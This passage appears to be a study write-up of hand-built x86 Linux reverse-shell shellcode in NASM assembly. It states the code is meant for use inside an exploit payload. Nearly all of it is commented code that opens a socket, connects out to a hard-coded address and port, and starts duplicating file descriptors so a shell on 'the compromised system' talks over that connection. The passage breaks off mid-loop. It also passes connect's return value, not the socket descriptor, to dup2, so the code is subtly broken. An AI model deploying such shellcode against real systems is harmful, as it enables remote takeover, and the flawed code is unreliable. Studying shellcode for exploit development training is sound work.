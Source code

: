 Using the above C program as a reference it is easier to work out what is required in the development of an assembly language equivalnet. Therefore the following program is written, from the disassembly of the C binary, to allow for use as shellcode within a exploit payload. To this end the shellcode produced is free from NULLs and is as compact as possible, or at least as compact as I can make it, for now. Extensive comments have been added to the assembly language code for study purposes.
```nasm
global _start
section .text
_start:
    ; Socket
    ; Function prototype:
    ;   int socket(int domain, int type, int protocol)
    ; Purpose:
    ;   creates an endpoint for communications, returns a
    ;   descriptor that will be used thoughout the code to
    ;   bind/listen/accept communications
    xor eax, eax    ; zero eax register
    xor ebx, ebx    ; zero ebx register
    xor ecx, ecx    ; zero ecx register
    xor edx, edx    ; zero edx register
    mov al, 0x66    ; socketcall()
    mov bl, 0x1     ; socket() call number for socketcall
    push ecx        ; push null
    push byte 0x6   ; push IPPROTO_TCP value
    push byte 0x1   ; push SOCK_STREAM value
    push byte 0x2   ; push AF_INET
    mov ecx, esp    ; ecx contains pointer to socket() args
    int 0x80
    mov esi, eax    ; esi contains socket file descriptor
    ; Connect
    ; Function protoype:
    ;   int connect(int sockfd, const struct sockaddr *addr,
    ;       socklen_t addrlen)
    ; Purpose:
    ;   initiate a connection on socket referred by the file
    ;   descriptor to the address specified in addr.
    mov al, 0x66    ; socketcall()
    xor ebx, ebx    ; zero ebx
    mov bl, 0x02    ; preparation for AF_INET
    push dword 0x0a01a8c0 ; (192.168.1.10)
    push word 0x697a ; port number 31337
    push word bx    ; push AF_INET
    inc bl          ; connect()
    mov ecx, esp    ; ecx contains pointer to sockaddr struct
    push byte 0x10  ; push socklen_t addrlen
    push ecx        ; push const struct sockaddr *addr
    push esi        ; push socket file descriptor
    mov ecx, esp    ; ecx contains pointer to connect() args
    int 0x80
    ; Dup2
    ; Function prototype:
    ;   int dup2(int oldfd, int newfd)
    ; Purpose:
    ;   duplicate a file descriptor, copies the old file
    ;   descriptor to a new one allowing them to be used
    ;   interchangably, this allows all shell ops to/from the
    ;   compomised system
    mov ebx, eax    ; ebx contains descriptor of accepted socket
    xor ecx, ecx    ; zero ecx register
    mov cl, 0x3     ; set counter
dupfd:
    dec cl          ; decrement counter
    mov al, 0x3f    ; dup2()
    int 0x80
```